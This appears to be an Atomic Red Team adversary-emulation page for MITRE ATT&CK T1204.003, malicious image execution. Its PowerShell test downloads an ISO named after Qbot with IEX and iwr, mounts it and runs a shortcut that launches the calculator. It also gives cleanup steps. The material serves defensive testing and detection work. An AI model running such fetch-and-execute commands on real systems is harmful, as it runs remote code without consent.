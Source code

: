 # T1204.003 - User Execution: Malicious Image
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1204/003)
<blockquote>

Adversaries may rely on a user running a malicious image to facilitate execution. Amazon Web Services (AWS) Amazon Machine Images (AMIs), Google Cloud Platform (GCP) Images, and Azure Images as well as popular container runtimes such as Docker can be backdoored. Backdoored images may be uploaded to a public repository via [Upload Malware](https://attack.mitre.org/techniques/T1608/001), and users may then download and deploy an instance or container from the image without realizing the image is malicious, thus bypassing techniques that specifically achieve Initial Access. This can lead to the execution of malicious code, such as code that executes cryptocurrency mining, in the instance or container.(Citation: Summit Route Malicious AMIs)

Adversaries may also name images a certain way to increase the chance of users mistakenly deploying an instance or container from the image (ex: [Match Legitimate Resource Name or Location](https://attack.mitre.org/techniques/T1036/005)).(Citation: Aqua Security Cloud Native Threat Report June 2021)

</blockquote>

## Atomic Tests

- [Atomic Test #1 - Malicious Execution from Mounted ISO Image](#atomic-test-1---malicious-execution-from-mounted-iso-image)


<br/>

## Atomic Test #1 - Malicious Execution from Mounted ISO Image
Adversaries may rely on a user running a malicious image to facilitate execution

**Supported Platforms:** Windows


**auto_generated_guid:** e9795c8d-42aa-4ed4-ad80-551ed793d006






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.003/src/qbot-test.iso" -OutFile "$env:TEMP\qbot-test.iso")
Mount-DiskImage -ImagePath "$env:TEMP\qbot-test.iso"
$mountedpath = (Get-DiskImage -ImagePath "$env:TEMP\qbot-test.iso" | Get-Volume).DriveLetter
$finalpath = $mountedpath + ":\"
cd $finalpath
.\calc.exe.lnk
```

#### Cleanup Commands:
```powershell
start-sleep -s 5
stop-process -Name "Calculatorapp" -Force 
dismount-diskimage -ImagePath "$env:TEMP\qbot-test.iso"
```





<br/>
